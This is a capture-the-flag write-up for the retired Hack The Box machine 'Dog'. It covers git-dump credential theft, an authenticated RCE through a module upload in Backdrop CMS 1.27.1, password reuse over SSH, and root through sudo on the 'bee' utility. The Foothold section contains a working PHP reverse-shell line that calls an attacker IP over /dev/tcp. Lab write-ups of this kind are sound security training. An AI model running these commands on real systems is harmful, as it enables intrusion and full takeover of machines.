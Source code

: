 # Dog

## Introduction

We will find a website using BackDrop CMS version `1.27.1`, which is vulnerable to Remote Code Execution and user credentials from an exposed Git directory, which we will use to log into the admin panel. From there, we'll be able to upload our reverse shell and retrieve the right user to SSH and set a foothold on the machine. Finally, a command utility that interacts with Backdrop sites will be exploited to escalate our privileges and gain root access.

## Machine infos

| Name                                           | Release Date | Retire Date | OS    | Level |
| ---------------------------------------------- | ------------ | ----------- | ----- | ----- |
| [Dog](https://app.hackthebox.com/machines/Dog) | 2025-03-08   | 2025-07-12  | Linux | Easy  |

## Enumeration

`nmap` finds two open TCP ports, SSH (22) and HTTP (80) :

```bash
 nmap -sC -sV -oA nmap 10.10.11.58
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-11 17:49 CEST
Nmap scan report for 10.10.11.58
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-title: Home | Dog
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.09 seconds

```

The website is a blog that seems to be talking about Dogs : 

![website](images/website.png) 

The login page confirms that it uses Backdrop CMS (also suggested by our earlier scan results) :

![login](images/login.png) 

`nmap` also pointed out that a `.git` repository is present : 

![git-repo](images/git-repo.png) 

To further inspect that repository, we can use [git-dumper](https://github.com/arthaud/git-dumper)  to download its content. After a few searches we quickly get some *mysql* database credentials inside `settings.php` : 

![settings-mysql-credentials](images/settings-mysql-credentials.png) 

The about page gives us a hint on how user's email are formatted on the domain : 

![about-page](images/about-page.png) 

Searching through the git repository for any user email that contains `dog.htb`, we find the user `tiffany` : 

![user-tiffany](images/user-tiffany.png) 

## Foothold

Testing both user name and database root password gives us access to the admin panel : 

![admin-panel](images/admin-panel.png) 

Drifting through the menus,  `Reports > Status report` displays the Backdrop CMS version : 

![backdrop-cms](images/backdrop-cms.png) 

After a quick search, we find out that BackDrop CMS version `1.27.1` is vulnerable to [authenticated RCE](https://www.exploit-db.com/exploits/52021). The suggested exploit works by creating a ZIP file that could be used to create a web shell and be uploaded as a module under `admin/modules/install`: 

```bash
python3 exploit.py http://10.10.11.58
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

A warning message informs us that `Zip PHP extension` is not loaded on the server : 

![zip-extension-not-available](images/zip-extension-not-available.png)  

If we try to install our module manually, by selecting the `Manual Installation` link, we get notified that only `tar, tgz, gz or bz2` extensions are allowed : 

![upload-error-requires-archive](images/upload-error-requires-archive.png) 

Getting back to our exploit, we simply create a `tar` archive from the `shell` folder : 

```bash
tar -cfz shell.tar.gz shell/*
```

This time, uploading the archive is successful : 

![shell](images/shell.png) 

We can then access our web shell module from  `/modules/shell/shell.php` : 

![web-shell-module](images/web-shell-module.png) 

If we change the `shell.php` code with some php reverse shell code : 

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.175/4444 0>&1'");
```

and run a local server using NetCat : 

```bash
nc -lnvp 4444
```

We get a reverse shell on the machine : 

![reverse-shell](images/reverse-shell.png) 

`johncusack` and `jobert` are system users : 

![system-users](images/system-users.png) 

But we don't have enough permissions to get the `user.txt` : 

![not-enough-permissions-to-cat-user](images/not-enough-permissions-to-cat-user.png) 

## Lateral Movement

We decide to connect to mysql and seek through usernames and passwords : 

![mysql-users-credentials](images/mysql-users-credentials.png)

Then we try to crack `john` hash : 

```bash
hashid -j -m '$S$EYniSfxXt8z3gJ7pfhP5iIncFfCKz8EIkjUD66n/OTdQBFklAji.'
Analyzing '$S$EYniSfxXt8z3gJ7pfhP5iIncFfCKz8EIkjUD66n/OTdQBFklAji.'
[+] Drupal > v7.x [Hashcat Mode: 7900][JtR Format: drupal7]
```

```bash
hashcat -m 7900 hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
```

Unfortunetly, after many failed attempts, the hash won't simply crack. Trying to SSH using the same password we did for `Tiffany` with `johncusack` simply works!

![johncusack-ssh](images/johncusack-ssh.png) 

## Privilege escalation

Checking for sudo rights, we see that `johncusack` can run `usr/local/bin/bee` as sudo user : 

![johncusack-sudo-rights](images/johncusack-sudo-rights.png) 

[Bee](https://backdropcms.org/project/bee) is a command line utility for Backdrop CMS that includes commands that allow developers to interact with their sites by performing actions. 

If we take a look at the documentation, `Bee` provides many commands and options : 

```bash
johncusack@dog:~$ bee

🐝 Bee
Usage: bee [global-options] <command> [options] [arguments]

Global Options:
 --root
 Specify the root directory of the Backdrop installation to use. If not set, will try to find the Backdrop installation automatically based on the current directory.

 --site
 Specify the directory name or URL of the Backdrop site to use (as defined in 'sites.php'). If not set, will try to find the Backdrop site automatically based on the current directory.

 --base-url
 Specify the base URL of the Backdrop site, such as https://example.com. May be useful with commands that output URLs to pages on the site.

<SNIP>
...

ADVANCED
  db-query
   dbq
   Execute a query using db_query().

  eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.

  php-script
   scr
   Execute an arbitrary PHP file after bootstrapping Backdrop.

  sql
   sqlc, sql-cli, db-cli
   Open an SQL command-line interface using Backdrop's database credentials.
```

If the `--root` flag path is set correctly, we can execute arbitrary `php` code directly. And based on  [GTFO Bins](https://gtfobins.github.io/gtfobins/php/) : 

> If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Which means, if we set `--root` to the directory where the Backdrop installation reside, we should be able to execute a system command such as `/bin/bash` and escalate our privileges as root : 

```bash
sudo bee --root="/var/www/html" eval "system('/bin/bash')"
```

![root-privilege](images/root-privilege.png) 

